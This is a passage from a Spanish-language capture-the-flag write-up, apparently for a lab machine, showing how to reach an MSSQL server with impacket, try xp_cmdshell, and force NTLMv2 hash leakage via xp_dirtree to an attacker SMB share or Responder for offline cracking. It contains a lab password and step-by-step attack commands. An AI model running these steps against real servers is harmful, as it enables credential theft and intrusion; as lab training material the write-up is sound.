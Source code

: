 ### Conexion al servicio MSSQL usuario reporting {-}

```bash
/usr/local/bin/mssqlclient.py WORKGROUP/reporting@10.10.10.125 -windows-auth
password: PcwTW1HRwryjc$c6

SQL> 
```

Con MSSQL hay un comando que se llama `xp_cmdshell` que nos permite enviar comandos a nivel de sistema

```bash
xp_cmdshell "whoami"
#Output
[-] ERROR(QUERIER): Line 1: The EXECUTE permission was denied
```

Aqui el truquillo seria de configurar la posibilidad al usuario de ejecutar comandos avanzados

```bash
sp_configure "show advanced", 1
#Output
[-] ERROR(QUERIER): Line 105: User does not have permission to perform this action
```

Como aqui vemos que el usuario reporting no tiene derechos de lanzar comandos o modificar las configuraciones, lo que vamos a intentar
es entablar una conexion a nivel de red que el proprio usuario reporting no puede hacer porque es usuario local. Hay un comando de
MSSQL llamado `xp_dirtree` que permite buscar ficheros en recursos compartidos

1. En la maquina de atacante, creamos un recurso compartido con smb

    ```bash
    impacket-smbserver smbFolder $(pwd) --smb2support
    ```

1. En el mssql lanzamos el comando

    ```bash
    xp_dirtree "\\10.10.14.8\smbFolder\test"
    ```

Ya podemos ver que la conexion a funcionado y que podemos ver un hash NTLMv2 del usuario **mssql-svc**.
Aqui copiamos el hash en un fichero y lo crackeamos con John. A vezes el hash puede que no sea del todo correcto, y si es
el caso, podemos intentar hacer la misma maniobra con la herramienta **responder** en vez de la **impacket-smbserver**

1. En la maquina de atacante, creamos un recurso compartido con smb

    ```bash
    python3 /usr/share/responder/Responder.py -I tun0 -rdw
    ```

1. En el mssql lanzamos el comando
